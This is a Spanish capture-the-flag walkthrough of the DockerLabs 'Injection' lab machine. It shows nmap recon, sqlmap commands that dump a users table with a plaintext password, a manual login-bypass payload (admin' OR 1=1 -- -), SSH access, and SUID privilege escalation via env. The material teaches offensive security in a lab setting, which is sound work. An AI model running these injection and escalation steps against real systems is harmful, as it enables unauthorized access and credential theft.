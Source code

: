 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
Nombre: Injection
Dificultad: muy fácil
Herramientas:
- Ping
- NMAP
- WhatWeb
- SQLMAP
- Puerto 22 SSH - SFTP



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```
![image]([https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Deploy.png)


Ping para comprobar conectividad y ver el ttl: 64
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Ping.png)

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Nmap.png)

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Web.png)

WhatWeb no nos da mucha información

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Whatweb.png)

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SQL%20Injection%20manual.png)

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Codigo%20consulta%20sin%20validar.png)


Acceso con usuario dylan:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20User%20access.png)

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SSH%20dylan%20user.png)


## Escalada de privilegios
sudo -l
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20sudo-l.png)

find / -perm -4000 2>/dev/null

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Suid.png)

Buscamos en Gtfobins algunos de estos suid
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20gtfobbins%20env.png)
Encuentro env:
lo ejecutamos con las rutas absolutas


![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Escalada%20de%20privilegiso.png)]

DockerLabs - Injection -
